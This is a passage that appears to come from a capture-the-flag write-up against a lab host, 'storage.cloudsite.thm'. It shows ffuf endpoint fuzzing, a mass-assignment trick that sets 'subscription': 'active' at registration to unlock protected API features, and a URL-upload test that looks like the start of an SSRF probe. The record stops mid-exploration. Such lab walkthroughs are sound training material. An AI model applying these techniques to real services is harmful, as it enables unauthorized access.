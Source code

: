 ```jsx
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 186ms]
register                [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 186ms]
uploads                 [Status: 401, Size: 32, Words: 3, Lines: 1, Duration: 153ms]
docs                    [Status: 403, Size: 27, Words: 2, Lines: 1, Duration: 145ms]

```

Try to download the /docs  file 

```jsx
$ curl -s 'http://storage.cloudsite.thm/api/docs'
{"message":"Access denied"}
```

### User Activating

By modifying the registration request to include:

```
"subscription": "active"
```

![Screenshot From 2025-05-30 14-25-36.png](img8.png)

we successfully created an **activated** account, gaining access to protected API endpoints.

### login in with this info and it will show you that upload

![Screenshot From 2025-05-30 14-28-08.png](img9.png)

 Try to upload a file using URL, I create a file 

```jsx
echo "test " > test.txt
```

```jsx
{"url":"http://192.168.1.9/test.txt"}
```

![Screenshot From 2025-05-30 14-31-06.png](img10.png)

It change the file name and save it. when i navigate to this link i can download it. 

So i try to upload and download this file 

